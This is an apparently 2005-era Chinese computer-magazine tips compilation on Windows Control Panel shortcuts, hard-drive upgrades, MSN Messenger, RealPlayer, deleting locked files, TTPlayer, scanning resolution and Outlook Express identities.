① 在“Enter Project”（键入工程名）文本框中输入新建的“控制面板”项目名称。
② 将需要运行的命令或者可执行文件的路径输入“File/Command Line”（文件/命令行）。
③ 为你的新兵选一套“军服”，也就是在“控制面板”中以什么样的图标和名称显示，在“Select Icon”（选择图标）框中选择合适的图标并设置显示名称。
④ 点击“General Control Panel File”（生成“控制面板”文件）按钮，并在弹出的“A CPL File Generator”窗口中按“是”，你的新兵就站到“控制面板”的队列里了。

### 为选项卡建立快捷方式

平时经常要打开控制面板某个项目的选项卡进行系统设置，比如：“系统”中的“设备管理器”、“显示属性”中的“设置”等，如果给它们单独在桌面做个快捷方式，一点就能快速进入，会方便很多。以建立“系统”项目的“硬件”选项卡的快捷方式为例（由于Windows不同版本的选项卡顺序也不相同，以Windows XP为例）。

① 获得“系统”项目的CPL文件名。打开“控制面板”，右击“系统”项目，然后选择“创建快捷方式”，系统就会在桌面上建立“系统”项目的快捷方式，右击该快捷方式并选择“属性”，接着在打开的“属性”窗口中单击“更改图标”按钮，在弹出对话框上方“文件名”中就能看到该项目的文件名“sysdm.cpl”。
② 在桌面空白处右击，在弹出的快捷菜单中选择“新建→快捷方式”命令，然后在“命令行”中输入“control sysdm.cpl,,2”（不带引号），单击“下一步”按钮将其命名为“设备管理器”，最后单击“完成”按钮。在命令行输入的“Control”代表“控制面板”，“sysdm.cpl”是刚才找到的项目文件名，两个逗号后的数字代表第几个选项卡，其中“0”代表第一个选项卡，以此类推（见图）。

双击此快捷方式时，就会自动打开“系统”窗口，并且自动定位到“设备管理器”选项卡。同样按照此方法就可以为其他“控制面板”项目的选项卡建立快捷方式。

图示：系统属性窗口的选项卡结构（示意图）
常规 | 计算机名 | 硬件 | 高级 | 系统还原 | 自动更新 | 远程

## 有容好用才乃大——大硬盘升级应用技巧

网络资源浩如烟海，要想取沧海一粟，一个容量超过100GB的硬盘已成为必须品。而在大硬盘升级以及使用中，了解一些必要的使用技巧会让硬盘应用省时省力，也更方便。

### 大硬盘，还要电脑吃得下

现在一个160GB硬盘才700元左右，相当便宜，但老用户在升级新硬盘时却不一定能使用全部容量。这是因为不少老主板的BIOS不支持硬盘的48bit寻址，不能正确识别超过137GB的硬盘。要知道自己的主板是否支持48bit寻址，可以EVEREST测试软件检测（下载地址http://www.mydrivers.com/tools/dir17/d7092.htm）。启动EVEREST，在左侧设备列表中选择“存储→ATA”项，然后在右侧下方窗口中找到48-bit LBA的项目，看是否支持（如图1）。

当主板不支持48bit寻址，又想使用正确使用137GB硬盘，最好的办法就是寻找主板能够支持48bit寻址的BIOS。如果没有新BIOS，建议购买附加ATA扩展卡。在使用时强烈不赞成用新电脑预先给大硬盘分区、第三方软件强制分区等方法让老主板支持48bit寻址，这很容易造成硬盘大于120GB的部分使用出错。

除了主板外，使用大硬盘还需要操作系统支持。首先Windows中只有WinMe中的FDISK和Windows 2000/XP以及新版本的操作系统的磁盘管理才能正确对超过137GB的硬盘分区，而要正确使用超过137GB硬盘，要求使用Windows 2000 SP4和Windows XP SP1以上版本操作系统。

图1

### 新硬盘，和老硬盘和平共处

添加新硬盘后，电脑上的老硬盘一般都还会继续服役，让新老硬盘和心硬盘共同服役吧。安装时，老硬盘和新硬盘得分别安装在间隔的三寸扩展位，让两块硬盘都有足够的散热空间，这可大大增加硬盘使用时的健康度。当新旧硬盘都是IDE接口时，两块硬盘分别接不同的IDE接口，这样在硬盘间交换数据时效率会大大提高。具体接法是新硬盘单独接一个IDE口，老硬盘和光驱一同接另一个IDE口。如果主板还有更多的扩展IDE口，让光驱同样也接独立IDE口可以让数据交流更方便。

### 启动硬盘自动监测

作为电脑中一个重要的机械部件，硬盘有一项自己的自动故障检测技术，即S.M.A.R.T.（Self-Monitoring, Analysis and Reporting Technology，自动监测、分析和报告技术）。

我们只要在BIOS中开启这项功能，电脑启动时就会自动检测硬盘的安全性，在硬盘不稳定时提前预警。启动方法是在电脑启动时按Del键进入BIOS设置，然后进入Advanced BIOS Features设置项，找到HDD S.M.A.R.T. Capability(硬盘S.M.A.R.T.能力)选项，设置为Enabled，此功能就启动了。启动后，如果系统检测到硬盘有故障隐患，会在自检过程中弹出红色S.M.A.R.T警示框，提醒用户。S.M.A.R.T.是硬盘相关的全面检测技术，类似硬盘线松动等周边问题也能检测出来，因此用户遇到S.M.A.R.T.报警时可先检查周边设置，最后再检查硬盘是否有问题。

## 随时观察硬盘体温

硬盘也能测体温？是的，SCSI硬盘的S.M.A.R.T.自动检测中，很早就加入了硬盘温度监测的部分，而现在新出的IDE和SATA硬盘也纷纷加入了此项功能，只是能够支持此项功能的软件较少。我们可用SpeedFan读取硬盘温度(下载地址http://www.mydrivers.com/tools/dir18/d7287.htm)，方法很简单，只需要启动SpeedFan，软件会自动检测硬盘是否支持温度检测，有此功能的硬盘就能直接读取温度，显示在SpeedFan右方窗口中。图2中的HDO、HD1就表示硬盘温度。当发现硬盘温度出现异常升高时，用户就有必要检测系统散热等问题，以防硬盘出现故障。



## 双硬盘加速文件移动

不少时候我们需要将硬盘某一个分区的大量文件移动到另一个分区上。这时如果我们有双硬盘，则有种能节约时间的移动方式。我们把需要移动数据的硬盘称作A盘，另一个硬盘称作B盘。首先确保双硬盘按照技巧02的方式正确安装，并且B盘有足够剩余空间。然后我们将A盘需要转移的数据移动到B盘上，再把这些数据从B盘移动到A盘新的分区。这样看来步骤比原来多了，但在大量转移数据时实际使用时间比从A盘一个分区直接移动到另一个分区有很大的优势。这是因为老方法系统必须不停地在同一硬盘上频繁切换读写状态，并频繁让磁头来回寻找目标磁道，大量的时间都浪费在这上面了。而用第二硬盘做中转盘的方法，则一直都是某一硬盘持续读取，通过独立的IDE通道转到另一条独立的IDE通道，持续写入到另一硬盘，数据传输的效率要高很多。

## 更高效整理硬盘

隔段时间整理一次硬盘碎片能重新提升硬盘性能，不过用Windows整理硬盘碎片实在很花时间，而用第三方软件又不太放心。我们可以用最简单的“移动”来整理碎片。方法就是将要整理碎片的分区的所有数据移动到有剩余空间的别的分区上(可按照目录结构分别移动到不同分区)，然后格式化一下已经清空的本需要整理碎片的分区，最后再把所有数据移动回来。结合05条技巧，这样的碎片整理效率相当高。需要注意的是，这种方法较适用于硬盘剩余空间较大时，不能用于有启动文件的C盘(有系统文件)以及当前系统的安装分区，并尽量关闭所有系统后台运行程序，在执行移动操作时不要进行其他操作和软件应用。

## MSN Messenger 7.0 真好玩！

MSN Messenger 7.0出来有一段时间了，喜欢聊天的你用好他们了吗？会给它换皮肤吗？MSN也能支持固定群？“传情动漫”、“数据包”等好玩的东东怎样才能批量下载？

## MSN 的面板换装秀

QQ自带了不少皮肤面板，可以根据每个人的喜好自行更换。MSN能换皮肤吗？很简单，只要登录http://ilove.msnshell.com/html/skin/，就可以下载到很多皮肤了。下载回来的是一个EXE文件，直接运行它即可。新的皮肤会在重新启动MSN之后生效，是不是完全不一样的感觉了(见图1)！如果你想让MSN来个彻底的改头换面，可以到http://download.pchome.net/internet/communications/msn/19961.html下载WAVE11，它除更改界面外，还能给MSN增加不少功能(如去除广告、多账号登录等)。



小提示：如果你还在使用老版本的MSN，可以到http://rolandolb.deviantart.com/找到老版本用的皮肤。

火速链接：MSN不能给离线好友留言一直是一个问题，本刊2005年第10期《MSN Messenger也能给离线好友留言啦！》一文给出了解决方法。

## 让 MSN Messenger 7.0 支持固定群

很多朋友之所以不喜欢用 MSN Messenger，就是因为它一直没有提供QQ那样的固定群功能，如果要和一帮好友交流，每次要聊天都要手动添加一次，很不方便，也不便于聊天记录的保存。有没有办法解决这个问题呢？答案是肯定的，不够这个服务是收费的，且不是微软官方提供的服务。

第一步：首先到 http://www.hotmail.com 注册一个账号，形如“group_数字@hotmail.com”，接下来就是给对方支付使用费了，费用标准可以自由选择：每月4元、每3个月12元、每半年24元、一年48元，具体支付的方法请参考http://www.msn-group.net/register.jsp。

第二步：联系客户人员，对方会为你开通群权限。开通后你就告诉你的朋友加入群的方法啦：将你注册的那个群ID账户添加为好友即可。群最多支持100位成员(见图2)。

第三步：现在你就是这个群的管理员了，你可以行使如下的功能：



- ★输入:<gm list all，查看群内所有用户名单
- ★输入:<gm remove [MSN Messenger 账号]，输出某个用户
- ★输入:<gm rename [群名称]，修改群的名称
- ★输入:<gm announce [群公告内容]，修改群内公告

注意：该服务并非微软官方提供，本刊不保证其提供服务的质量和长期性，本技巧也不构成购买建议，请您根据自己的需要自行决定是否使用。

## 批量下载安装 MSN 好玩东东

MSN Messenger 7.0中最好玩的当然就是“传情动漫”、“数据包”啦，其中传情动漫有点类似于QQ中的魔法表情，而数据包则是包括聊天窗口背景、显示图片等在内的多种资源的整合。不过MSN Messenger自带的这些好东东实在太少，要下载又需要收费。我们可以到 http://www.heezhen.com/mci/mci4free.exe 下载这个名为 MSN Content Installer 的批量下载安装 MSN 资源的软件，运行后点击相关的资源，它就会自动帮你下载并安装完成了(见图3)。需要注意的是，该软件需要 .NET Framework支持，如果你还没装，请先到http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=262d25e3-f589-4842-8157-03d1e7cf3a3 下载安装。



## 让 MSN Messenger “隐身”聊天

大家都知道，MSN Messenger不支持类似QQ那种隐身聊天功能，下面笔者介绍一下如何根据不同的需求巧妙地解决这个问题：

- ★如果不想和MSN Messenger上某个(或者某些)好友聊天，但又不想让他知道你在线：打开与该好友的聊天窗口，选择“操作→阻止”菜单即可，对于其他你不想聊的人也做同样操作。这时候这些好友看到你的状态为离线状态，还以为你不在在线呢，实际上你正和别人聊得欢呢。
- ★如果只想和某个人(或者某些)聊天，但又不想别人来打扰你：首先登录你的MSN Messenger账号，登录的时候选择登录方式为“离线登录”，登录后选择“工具→选项”菜单，切换到“隐私”标签，在这里将你不想聊的人都“阻止”了。当你想恢复“正常人”身份时，只需要解除对好友的阻止即可，完全可以做到神不知，鬼不觉。

## 看清 MSN Messenger 联系人的“脸”

MSN Messenger 7.0对联系人的显示有了很多更新，特别是这里增加了一些小图标标志，到底这些标志表示什么呢？从左到右依次为：

- ★黄色的星星：表示该好友注册了 MSN Space的服务，而且其MSN Space有更新。
- ★小手机：表示该好友注册了自己的手机号码，或者使用了MSN提供的类似于移动QQ的 MSN Mobile服务。
- ★小耳机：表示该好友正在听歌，且后面可以看到他听的歌曲信息。当然，该功能要对方在MSN Messenger中开启，并默认只能支持Windows Media Player。

## 6招玩转RealPlayer

虽然现在最流行 Windows Media Player 系列，虽然很多电脑上安装了“豪杰解霸”，但不管是网吧还是很多人的电脑里都用的是 RealPlayer，不为别的，就因为它免费，就因为 Real 格式最流行，就因为它的兼容性最好……(本文以 RealPlayer 10 为例进行介绍)

### 烦人的链接不要再打开

越来越多的网页文件内置了网页链接，只要一用 RealPlayer 播放就会打开一个网页，如果其中藏有恶意病毒那就惨了。这个问题现在主要有两种方法可以解决：一是换用第三方播放器，但目前还没任何第三方播放器可以完全代替 RealPlayer；另一种方法就是去除该文件中的网页链接，在此之前我们大多是使用命令行工具进行清除，但现在利用“RM 播放恶意广告补丁”（下载地址：http://www.newhua.com/cfan/200513/adrm.rar）就可以直接去除网页的链接。

在使用“RM 播放恶意广告补丁”时，分别设置好“源文件”及“另存为”文件，点击“开始过滤”按钮即可。

### 去除 RealPlayer 的记忆功能

每次用 RealPlayer 播放影音媒体后，都会将最近播放的文件记住并记录在“文件”菜单和“现在播放”列表中，泄露了自己的隐私。根据本文的步骤，我们可以给自己的 RealPlayer 筑起隐私防火墙。

第一步：点击 RealPlayer 主菜单“工具→首选项”，在左侧导航目录中点击“常规”（见图 1），在窗口右侧的“在启动显示上”下拉菜单中选择“仅限于播放器(无媒体浏览器)”，去除“自动在回放开始时调整剪辑”项的勾选；接着将“现在播放”设置为“播放新剪辑时清除现在播放列表”单选框，同时撤销“前一列表已自定义时发出警告”复选框；最后撤销“允许‘文件’菜单中显示历史记录列表”复选框，点击“清除历史记录”按钮清除已经产生的播放记录。

第二步：点击“显示现在播放”按钮，删除“现在播放”列表的所有曲目，重启 RealPlayer，状态栏已显示空白（见图2）。

第三步：打开“资源管理器”，依次展开文件夹 “C:\Documents and Settings\Administrator\Application Data\Real\RealPlayer”（本文以 Windows XP 为例，且系统安装在 C 盘），此文件夹的“RealPlayer.ste”即保存着 RealPlayer 的播放列表信息。

第四步：关闭 RealPlayer 后删除此文件，再重新运行 RealPlayer，可以看到“RealPlayer.ste”大小为 OKB 的空数据库。右击“RealPlayer.ste”，选择“属性”，在“属性”窗口中勾选“只读”复选框，点击“确定”返回。

现在无论怎么点击图 2 的菜单，RealPlayer 恢复的始终都是空白列表。而且不管是否清空现在播放列表，重启 RealPlayer 后即显示空白列表，这样也保全了自己的隐私。

### 让 RealPlayer 的“功能全开”

默认时 RealPlayer 的“工具→视频控制”下只有两项无关紧要的选项，根本无法进行视频亮度调整等操作，为增强此功能，你可以从 http://www.newhua.com/cfan/200513/realplayerpatch.rar 下载 RealPlayer 专用的补丁，下载该补丁，解压缩至 RealPlayer 所在目录，运行后，就可以打开 RealPlayer 的全部功能了。

### RealPlayer 启动得更快

RealPlayer 虽然不错，但启动速度实在太慢，不过使用下面的方法可以对其打开速度进行调整。

第一步：进入 C:\Program Files\Real\RealPlayer\DataCache\GetMedia 目录，修改 getmedia.ini 文件名为 getmedia_b.ini。进入 C:\Program Files\Real\RealPlayer\Firstrun 目录，修改 firstrun.smil 文件名为 firstrun_b.smil。

第二步：打开 RealPlayer，选择菜单中的“视图→专辑信息→隐藏”。

第三步：按 Ctrl + B 组合键关闭媒体浏览器（再按为打开）。

第四步：退出 RealPlayer，右击 RealPlayer 快捷方式，在“目标”文本框中输入“/l”（不含引号）。

全部完成后，再打开看看是不是速度已经快多了？

### 下载未完成的 Real 格式文件也能看

经常用 BT 从网上下载 Real 格式电影的朋友一定遇到过下载到 99% 突然没种子的情况。当出现这种情况，很多人只能删除下载的电影了。其实这时，只要将扩展名修改为 RMVB 或 RM，就可以直接观看了。不过，此时视频是无法拖拽快进的，需要用 Video Fixer（下载地址：http://nj.onlinedown.net/soft/17920.htm）或类似软件对文件重建索引。

### 让 RealPlayer 变得更苗条

RealPlayer 有很多功能，但其中有些对你来说用不上，其实是可以删除的。打开“C:\Program Files\Real\RealPlayer”，删除用于储存 RealPlayer 安装文件的 Setup 文件夹，删除实现刻录功能的 CDBurning 文件夹，与“首选项”菜单相关的“DataCache”、“Firstrun”、“Netscape6”和“producer”四个文件夹可根据需要删除，删除它们并不会影响 RealPlayer 的播放功能。



图 1



图 2

## 清理硬盘上的“钉子户”

删除文件时，如果遇到“无法删除该文件”的错误提示，你会怎么做？反复敲击 Del 键还是作抓狂状？这个文件凭什么占用我宝贵的硬盘空间，下定决心一定要删除它。

### Explorer 帮你解决删除难题

文件无法删除，很多情况下都是由于 explorer.exe 正在对该文件进行访问所造成的。这种删除故障很容易解决，只需重新启动即可。但为了删除一个文件就重新启动实在有些不值得，有没有更好的方法呢？

按下 “Ctrl + Alt + Del” 组合键，点击“任务管理器”，在弹出的“任务管理器”中选择“进程”选项卡，右击 explorer.exe，在弹出菜单中选择“结束进程”（见图 1）。此时桌面上的东西都会消失。选择“任务管理器”的菜单“文件→新建任务”，在弹出的“创建新任务”框中点击“浏览”，接着在文件选择框中将“文件类型”改为“所有文件”，在文件选择框中完成文件的删除操作。删除完成后点击“取消”关闭文件选择框，在“创建新任务”的“打开”框中输入 explorer.exe，点击“确定”，桌面又恢复正常了。



图 1

### WinRAR 助你排除“眼中钉”

WinRAR 除压缩外，原来还有一项独门秘技，就是删除顽固文件，我们来看看它是怎么做的。首先右击需要删除的文件，选择菜单“WinRAR→添加到压缩文件”（如设置中没有勾选“层叠右键菜单”，则直接选择“添加到压缩文件”）。

在弹出的“压缩文件名和参数”窗口中选择“常规”选项卡，在右下角的“压缩选项”中勾选“压缩后删除源文件”（见图 2），点击“确定”开始压缩。完成后 WinRAR 会自动将文件删除，你只需再将新添加的 RAR 文件删除即可。



图 2

### 逮捕锁定文件的元凶

文件无法删除时，应先检查是否打开了此文件。比如明明已经用 Word 打开了 work.doc，却想要删除它，当然是不可能的。最好的方法是结束锁定文件的进程，比如 explorer.exe，但很多时候我们很难找出到底是哪个进程锁定了文件，应该怎么办呢？可以利用一些小工具，比如 WhoLockMe（下载地址：http://www.dr-hoiby.com/WhoLockMe/WhoLockMe104.zip），安装后只需在“资源管理器”中右击无法删除的文件，选择“Who Lock Me？”，就会弹出一个提示框告诉你具体是哪个进程锁定了文件（见图 3）。然后在“任务管理器”中结束该进程即可。



图 3

### 磁盘错误 = 顽固文件元凶

遇到无法删除的文件，除了中止可能锁定文件的进程外，还可以启动到安全模式下进行删除，因为安全模式下只运行系统启动必需的文件。但有时候，即使到安全模式下文件还是无法删除，使用 WhoLockMe 程序查看锁定文件的进程却发现并没有被锁定！难道是遇到了灵异事件？在遇到这种情况时，建议按下面的方法进行操作。

如果是 Windows 9x，则运行 Scandisk，对文件所在盘符进行检查，并勾选自动修复错误的选项。而在 Windows 2000/XP/2003 中，则使用 “chkdsk c: /f”(不包括引号，c:应改为文件实际所在盘符)。在磁盘错误修正之后，再尝试删除文件就行了。在磁盘出现错误(如果是物理坏道，则使用此方法也无法删除了)时，有时会出现无法新建/删除文件的故障。

### 巧用 KillBox，删文件不求人

文件无法删除实在是一件令人头痛的事，很多朋友还没来得及重启就已经打电话向身边的高手哭诉求救起来了。连删除文件都要找人帮忙，实在是不太好意思。没关系，删文件可以不求人，向 KillBox 求助吧。

第一步:首先在 http://www.onlinedown.net/soft/37257.htm 下载最新的 KillBox 汉化版，解压后可直接运行目录中的 KillBox.exe，软件的运行界面如图 4 所示。



第二步：在 “填上需要删除文件的完整路径” 框右侧有一个文件夹图标的按钮，点击后会弹出一个文件选择框，在此我们选择需要删除的文件。

第三步:默认设置是 “普通删除模式”，点击红叉按钮 (即删除按钮) 后文件即被删除，如果删除失败，可以勾选 “删除前先结束 Explorer.exe 进程” 再点击删除。如果被选文件是 DLL，建议在删除前勾选 “删除 DLL 文件前先反注册此文件”。

### 删除前的准备工作

如果文件删除出现问题，解决的方法有很多。可是如果经常会遇到偶发性的文件删除失败，你就应该考虑调整一下系统设定了。

- ①禁用媒体文件预览功能：多媒体文件预览是一个非常方便的功能，可是有时却会带来麻烦。为解决这一问题，可以先运行 “regsvr32 /u shmedia.dll”，然后重新启动并删除文件，接着运行 “regsvr32 shmedia.dll”。
- ②取消杀毒软件实时监控：如果是大的压缩文件，杀毒软件的实时监控功能可能会导致文件被锁定，所以在删除体积较大的压缩文件前，应该先禁用杀毒软件的实时监控功能。
- ③取消系统还原：如果是 Windows XP 系统，则应先在 “系统属性→系统还原” 中勾选 “在所有驱动器上关闭系统还原”，取消此功能后再尝试删除。
- ④删除页面文件：在 Windows 2000/XP 中，选择 “系统属性→高级→性能设置→高级→虚拟内存更改”，把页面文件大小设为 “无分页文件”，重启后再行删除。删除完毕后别忘了恢复原来的页面文件设置。
- ⑤需要更高权限：如果文件默认权限经过修改，那么很可能因为文件权限的原因导致删除失败，此时应换管理员账户登录再试着删除。

## 千千静听 静听情怀

现在编辑部里的小编，大部分都已经换用了千千静听，就是为了享受它的免费同步歌词下载功能。虽然 Winamp 或 Foobar 2000 都可以通过第三方插件实现这个功能，但二次安装及部分需要交费，显然不如千千静听得容易。正因如此，千千静听一推出，就很快普及开了，下面我们就来介绍一些关于它的技巧。

### 为减小服务器负担而努力

目前千千静听的歌词服务器日搜索量已达 1000 万次，日下载歌词量已达到数百万次，这对于一台服务器而言已经承受了巨大的压力，严重时，还会影响千千静听主页的浏览。为了减小服务器负担，所以建议大家在千千静听中进行下面的设置。

第一步:在千千静听主窗口右击，选择 “千千选项”，打开 “千千静听 - 选项” 窗口。

第二步:在窗口左侧点击 “歌词搜索”，下面的设置可根据不同的习惯进行不同设置。

如果你是按专辑分类，保存在不同文件夹下，那么可以在右侧勾选 “本地搜索” 栏下的 “歌曲所在文件夹”，勾选 “在线搜索” 下的 “保存成歌曲文件相同的文件名” 及 “保存到歌曲所在的文件夹”(见图 1)，这样歌词和歌曲都可以保存在同一目录下，既方便以后的备份，也方便整理。



如果你是将所有的 MP3 保存在一个目录下，那么建议你将所有的歌词也保存在同一个目录下。设置方法是，在 “本地搜索” 中勾选 “歌词下载文件夹”，然后勾选 “保存成歌曲文件相同的文件名”，并在最下面的 “保存到其他文件夹” 设置好保存目录即可。

小提示

如果你觉得有单独的歌词文件比较麻烦，那么可以将歌词内嵌至音频文件:在 “千千静听 - 选项” 窗口左侧点击 “歌词秀”，勾选 “自动嵌入歌词到音频文件” 项。

### 千千静听批量修改标签很方便

大家都知道，千千静听是以 MP3 中 ID3 信息的 “艺术家” (歌手) 及 “标题” (歌名) 为关键字搜索歌词的，可是每次下载回来的歌曲都没有文件信息，这时就需要手工添加或搜索，比较麻烦，下面就来教大家一个简单的，在千千静听中批量添加 ID3 信息的方法。我们以下载的 MP3 文件名为 “艺术家 - 专辑名 音轨号.标题” 为例(如 “周传雄 - 星空下的传说 01.坏感觉.mp3”)

第一步:将所有歌曲添加至千千静听，由于没有 ID3 信息，这时在 “播放列表” 中显示的是文件名。

第二步:按 Ctrl+A，选中所有歌曲，右击，选择 “批量文件信息”。

第三步:在弹出来的 “文件信息” 窗口中点击 “从文件名猜测标签” 按钮，在 “请输入歌曲文件名的样式” 栏中，根据文件名的样式输入 “%(Artist) - %(Album) %(Tracknumber).%(title)” (不含引号)。“确定” 后，回到主窗口，点击 “保存到文件” 按钮即可 (见图 2)。

这样所有的歌曲 ID3 信息就修改完成了。



### 让千千静听不再占用过高 CPU

千千静听 4.5 版提高了音效处理的精度，包括采样频率转换、均衡器、环绕等，全面采用 64 位双精度浮点以取代以前的 32 位单精度浮点运算，效果明显。不过，由于作者失误，在改进环绕算法时，忽略了浮点运算可能带来的溢出，所以当使用 4.5 时，如果你同时开启了 “采样频率转换” 和 “环绕” 时，浮点运算溢出会引起 CPU 占用率达到 90% 以上，表现为系统变慢，严重的还会出现假死现象。

作者已经计划在下一版中修正这个 BUG，在此之前，你只能关闭 “采样频率转换” 或 “环绕” 以避免问题出现。这两项的设置一个是在 “均衡器” 中，另一个在 “千千静听 - 选项” 窗口中 “音频设置” 下，即默认不勾选的 “启用采样频率转换” 项，只要不同时开启它们即可。



### 可以使用 Winamp 的插件

第一步:从 http://www.newhua.com/cfan/200515/ttplayplugs.exe 下载千千静听插件包。

第二步:打开千千静听，右击主窗口，选择 “千千选项”，在弹出窗口左侧点击 “音效插件”，复制窗口右侧 “插件目录” 中的路径，关闭千千静听。

第三步:安装插件包，在进行至选择安装目录时，将刚才复制的插件目录粘贴即可。

第四步:重新打开千千静听，并再次进入 “千千静听 - 选项” 窗口中的 “音效插件”(见图 3)，这时就可以选择要启用的插件了。

### 千千静听 “大变身”

很多人都说千千静听的皮肤不好看，其实也并不是这样，网上不仅仅有很多千千静听皮肤资源的下载，更有相关的皮肤制作资料及工具(下载地址:http://www.newhua.com/cfan/200515/skinmaker.rar)，只要你想，完全可以用自己和女(男)朋友的合影制作一款极具纪念意义的皮肤。

如果你想省事，那也没问题，你可以直接从 http://www.newhua.com/cfan/200515/ttplayskin.rar 下载包含有 110 款皮肤的压缩包。将这个压缩包内的文件全部解压缩至 C:\Program Files\TTPlayer\Skin\(根据情况修改为千千静听安装目录)下，就可以使用这些皮肤了。

### 千千静听变 “亮听”

很多人习惯了用 Winamp 上的插件，换用千千静听后，一直不习惯，其实千千静听是支持大部分 Winamp 2.x 的插件的。

## 扫出精彩世界——扫描仪应用技巧实例

几百元一台的扫描仪许多用户已经轻松拥有，而如何扫描更适合使用的图像则是用好扫描仪的关键，下面几个小技巧可让扫描仪使用更轻松。

### 寻找平台扫描仪的最佳扫描区域

扫描仪在使用过程中，在整个扫描区域的不同部位扫描效果并不一定完全一致，我们可以通过一定的方法找到扫描仪的最佳扫描区域，以获得最佳、最保真的图像效果。将扫描仪的所有控制设成自动或默认状态，选中所有区域，以低分辨率扫描一张空白、白色或不透明块的样张。用Adobe Photoshop打开该扫描样张，执行Image-Adjust-Equalize(图像—调整—色调均化)命令，这个命令就能把扫描图中不明显的色调差别明显体现出来，在处理后依然色调一致的区域就是扫描仪上裂纹、条纹、黑点最少等干扰最少的区域，这里就是这台扫描仪的最佳扫描位置，在扫描时将扫描对象放置到此位置会有最好的扫描效果。对于有较多直线条的图像，扫描时图像角度不同，扫描质量也不大相同，所以可以事先测试不同角度下的扫描质量，得到最佳扫描放置角度，这样扫描起来会有更好的效果。

### 如何设定纯黑白模式扫描的分辨率

对于纯黑白模式扫描多用于扫描文字或黑白线条的稿件，若扫描图像只是用做光学文字识别(OCR)，通常情况下，300dpi已经足够。若使用电脑传真，200dpi即可完全满足用户需求。若扫描稿件用来做电子邮件的附件，只要能让对方看清楚即可，分辨率可以进一步降低，先尝试100dpi，再视情况进行增减，这样可大大降低附件容量。

### 屏幕显示用途扫描分辨率设定看过来

彩色或灰阶模式的扫描图像，如果纯粹作为屏幕显示而毫不考虑是否有打印需求时，用户只要确实知道自己希望得到的影像宽度、高度各有多少像素即可。具体就是用长或宽度的像素除以扫描范围（通常单位是英寸），比如如果用户所需显示的图像大小为800×600，照片的扫描范围为4×3英寸时，扫描分辨率应按如下公式设置：宽：800/4=200dpi，高：600/3=200dpi。因此用200dpi×200dpi进行扫描，效果最好。

### 喷墨或激光打印用途扫描分辨率设定别犯愁

市场上所谓打印分辨率高达2880dpi及2400dpi的超高精度打印机的标准打印分辨率应为2880×720dpi及2400×1200dpi，而实际真实的分辨率以最小分辨率计算，应为720dpi或1200dpi。设定扫描分辨率时请将打印机的真实打印分辨率除以4或3即可。以720dpi打印机为例，扫描分辨率可设定为180至240dpi之间，如果需要提升质量，将打印机的真实打印分辨率除以3或2已足够。即使扫描分辨率设置得再高，实际上，对打印品质的提升也毫无帮助。

### 消除印刷品中的网纹

很多印刷品为了美观都有些网纹，如果想在扫描时去掉，并不是不可能的。目前很多扫描仪都具有消除网纹的功能，但对于没有提供这一功能的扫描仪或者去除效果不佳的时候，我们就可以利用Photoshop软件提供的“模糊”（也称柔化）滤镜来消除这些讨厌的网纹。首先，在扫描的时候，应该使用较高分辨率来扫描图片，这样扫描出来的图片也就越大，为下一步的图片缩小和滤镜处理提供条件。然后，从“图像”菜单的“图像大小”一项中，将图片调整到合适的大小，当调整之后会发现缩小后的图片的网纹情况已稍有减弱。最后，从“通道”窗口中点选“红”通道，并从“滤镜”菜单“模糊”选项中点击“高斯模糊”一项，从弹出的窗口中将半径设置为3～5，单击“确定”按钮退出之后，再分别为“绿”和“蓝”通道进行同样的调整，这样点击RGB通道显示返回原图像后，即可发现图像已经没有网纹了。

### OCR用途扫描经验谈

文本的OCR识别是用户使用扫描仪产品最常见的应用之一，实际上，OCR识别正确率不仅与OCR软件本身有关，与使用方法的正确与否也有很大关系。进行OCR用途的扫描，一般要保证300dpi的分辨率。调节扫描仪工具内的“阈值”，使得扫描效果更加清晰，由于OCR的辨识原理是采用字模的方式进行的，所以一定要注意稿件是否水平。具体实施过程中，可以采用图像倾斜校正功能来解决。在识别前，需做一些预先的处理。首先应该去除原稿中的杂点和图像。对文档中出现分栏的情况，建议手动设定辨识范围，只有这样才能保证辨识结果的连贯性。

### 胶片扫描并不难

在扫描仪中，选择负片扫描方式，正式扫描前，用“色调曲线”工具，调整图像的层次，用“色彩校正工具”调整色彩偏向。如果想完美地重现胶片上记录的图像细节，那么扫描分辨率至少要和胶片本身的分辨率相当。以35毫米胶片为例，底片成像范围只有24×35毫米，当前质量比较出色的彩色感光胶片可以达到每毫米100线以上的分辨率，换算过来平均为2000dpi。要达到3寸彩照的效果（放大三倍），其扫描的分辨率应不低于900dpi。如果需要更大一些，至少需要1200dpi分辨率进行扫描，才能完美地重现胶片上记录的图像细节。当然用于网上贴图等用途则要不到这样的分辨率，600×400以下足矣。

### 创造性地进行扫描

在扫描纹理、物体、艺术作品以及更多东西时，您会为扫描仪带来的非凡效果惊叹不已。有趣的纹理可用来创造几乎任何东西。此外，不妨试试扫描光盘，反射回来的光会创造出不同的彩虹图案。扫描铝箔会导致出现惊奇的光线效果。不要拘泥于二维世界。请尝试扫描三维物体，例如硬币、瓶子、罐头以及其他普通家用物品。或者，您可以走出家门，到野外大自然中去扫描树叶、嫩枝、花朵以及植物等，用它们来制作具有深度真实感的图像。另外扫描任何由金属或者玻璃制作的三维物体时，一定要格外小心，别弄坏了您的扫描仪。

## 印‘来’‘去’——Outlook Express

Outlook Express是大家常用的邮件客户端。本期我们特别收集了和它相关的应用技巧，如备份、加密等内容，帮您高效处理邮件！

### 手动进行OE备份

Outlook Express(以下简称OE)的备份非常麻烦，一般我们使用Outlook Express Backup(下载地址:http://www.genie-soft.com/download/OEBackup65_setup.exe)等第三方工具辅助备份，不过对于多数用户来讲，只需备份邮件、邮件规则、地址簿和账户信息即可。下面介绍一下如何手动备份这些信息：





### 给OE加把锁

第一步：启动OE后，点击“文件→切换标识”菜单，这时在打开窗口的列表中看到一个名为“主标识”的项，点击“管理标识”按钮，即可打开标识管理窗口。点击选中“主标识”，单击“属性”按钮，打开标识更改窗口，更改“主标识”为你自己的名字，再选中“需要密码”按钮并设置密码即可。

第二步：确定返回后，列表中将显示一个标识名为你的名字的标识，这时单击“注销标识”按钮退出OE。下次我们启动OE的时候，软件会要求选择登录标识和密码。对于多人共用一台电脑的情况，我们可以利用类似的方法建立多个标识。

每次以自己的登录标识进入OE，收发完自己的信件后，都要选择“文件→切换标识”命令，然后在“注销标识”按钮上单击，以“注销标识”的方式退出Outlook Express，否则，下次启动Outlook Express时将以上次你关闭时所使用的标识直接进入Outlook Express的信件收发界面。

小提示
★如果不慎忘记密码，很多星号密码查看软件都能轻易帮你看到密码，比如 Revealer。
